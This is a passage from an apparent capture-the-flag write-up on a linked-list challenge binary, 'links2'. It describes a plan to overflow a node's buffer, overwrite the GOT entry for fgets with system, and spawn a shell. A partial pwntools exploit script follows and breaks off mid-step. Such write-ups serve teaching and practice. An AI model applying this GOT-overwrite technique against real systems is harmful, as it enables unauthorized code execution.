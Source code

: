 So our plan of action is as follows:

1. Add a few nodes to the list
2. Modify a middle node, ensuring the data begins with "/bin/sh" and fills the 64-byte data so that we can overflow the link with the address of `got.fgets`
3. Modify the next node (the one now pointing to `got.fgets`) and write the address of `got.system`
4. Try to modify the node where we wrote "/bin/sh", triggering `write_data` and therefore calling `system("/bin/sh")` instead of the intended `fgets`

A couple of things to mention:

-   To populate the address of `got.system`, the function must be called. Therefore we call the `view_time` function before doing our arbitrary write.
-   Calling `view_time` breaks my usual `gdb.debug` command; hence the `gdb.attach` command in the script. We can use that to debug but unfortunately lose access to the `heap` and `vis_heap_chunks` commands. If you want to debug using the standard method, comment out the "View time" line of code.

We'll create a PwnTools script, setting a breakpoint at `write_data`.

{% code overflow="wrap" %}
```py
from pwn import *


# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
break write_data
continue
'''.format(**locals())

# Binary filename
exe = './links2'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Start program
io = start()

# View time (populate system() in GOT)
io.sendlineafter(b'>>>', b'3')

# Add 3 elements to list
for i in range(3):
    io.sendlineafter(b'>>>', b'2')
    io.sendlineafter(b'>>>', str(i).encode())
    io.sendlineafter(b'>>>', b'CHUNK_' + str(i).encode())

# Modify element in list
io.sendlineafter(b'>>>', b'2')
```
